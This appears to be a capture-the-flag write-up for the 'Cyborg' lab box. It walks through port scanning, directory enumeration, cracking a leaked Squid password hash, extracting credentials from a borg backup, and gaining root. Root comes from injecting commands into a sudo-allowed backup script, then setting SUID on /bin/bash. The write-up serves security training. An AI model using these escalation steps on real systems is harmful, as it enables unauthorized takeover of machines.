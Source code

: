 

## Overview

This box contains a Squid proxy configuration, a leaked hash, and a `borgbackup` repository. We perform enumeration, crack credentials, extract files, and escalate to root using a misconfigured backup script.
P.S dont forget to add IP to /etc/hosts if desirable. !? 
---

## Nmap Scan

nmap -sS -sV -T4 -p- cyborg.thm

Open Ports

    22 - SSH (OpenSSH 7.2p2)

    80 - HTTP (Apache 2.4.18)

Directory Enumeration

Using feroxbuster:

    http://cyborg.thm/admin/

    http://cyborg.thm/etc/ → Directory listing enabled

    http://cyborg.thm/etc/squid/ → Directory listing enabled

    Interesting files:

        /etc/squid/passwd

        /etc/squid/squid.conf

        /admin/archive.tar

        /admin/*.html, *.jpeg, etc.

Credential Discovery

Found hash in:

http://cyborg.thm/etc/squid/passwd
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.

Cracked Using Hashcat

hashcat -a 0 -m 1600 hash.txt /usr/share/wordlists/rockyou.txt

    Username: music_archive

    Password: squidward

Borg Backup

The website references borgbackup. Based on the README, it's clear a backup archive is present.
Steps:

    Install borg:

sudo apt install borgbackup

Extract archive:

borg extract /home/ivo/Downloads/archive::music_archive

Found in Documents/note.txt:

    alex:S3cretP@s3

Privilege Escalation
Using sudo -l

# sudo -l #

Output:

User alex may run the following commands on ubuntu:
(ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh

Inspecting backup.sh, it accepts a -c flag:

while getopts c: flag
do
  case "${flag}" in
    c) command=${OPTARG};;
  esac
done
cmd=${command}

Get Root Access

Run:

sudo /etc/mp3backups/backup.sh -c whoami

Output:

root

Spawn Root Shell via SUID

    Set SUID on bash:

sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"

Run:

bash -p

Access the root flag:

cd /root
cat root.txt
